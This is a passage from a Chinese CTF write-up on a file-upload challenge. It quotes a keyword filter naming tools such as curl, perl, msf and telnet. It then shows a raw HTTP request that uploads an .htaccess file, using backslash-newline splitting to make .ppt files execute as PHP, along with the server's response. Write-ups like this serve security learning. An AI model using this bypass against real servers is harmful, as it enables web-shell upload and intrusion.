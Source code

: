 ###### 大概的意思就是过滤了这些`perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet`

###### 字符，而且我们上传的图片不能解析，因此我们可以上传一个`.htaccess`，添加其他后缀名解析为`.php`文件。如：`AddType application/x-httpd-php shell.ppt`。不过由于`php`字符串的过滤我们上传的文件不能包含`php`，因此我们上传的`.httacess`文件中的`php`可以用换行符绕过，对于上传了的`shell.ppt`文件，如果该php开启了短标签我们可以用短标签`<?=`来代替`<?php`，下面我们就来尝试一下：

```
POST /index.php HTTP/1.1
Host: 129.204.21.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------279095805311502314111982965121
Content-Length: 384
Origin: http://129.204.21.115
Connection: close
Referer: http://129.204.21.115/index.php
Upgrade-Insecure-Requests: 1

-----------------------------279095805311502314111982965121
Content-Disposition: form-data; name="fileUpload"; filename=".htaccess"
Content-Type: image/jpeg

AddType application/x-httpd-p\
hp .ppt
-----------------------------279095805311502314111982965121
Content-Disposition: form-data; name="upload"

submit
-----------------------------279095805311502314111982965121-- 
```

###### 结果如下：

```
HTTP/1.1 200 OK
Date: Mon, 04 May 2020 08:45:52 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
X-Powered-By: PHP/5.4.16
Content-Length: 1027
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Cheek in</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" type="text/css" href="style/css/style1.css">
    <link rel="stylesheet" type="text/css" href="style/css/style2.css">
</head>
<body>
<div class="wrap">
    <div class="container">
        <h1 style="color: white; margin: 0; text-align: center">UPLOADS</h1>
        <form action="index.php" method="post" enctype="multipart/form-data">
        <input class="wd" type="file" name="fileUpload" id="file"><br>
        <input class="wd" type="submit" name="upload" value="submit">
            <p class="change_link" style="text-align: center">
```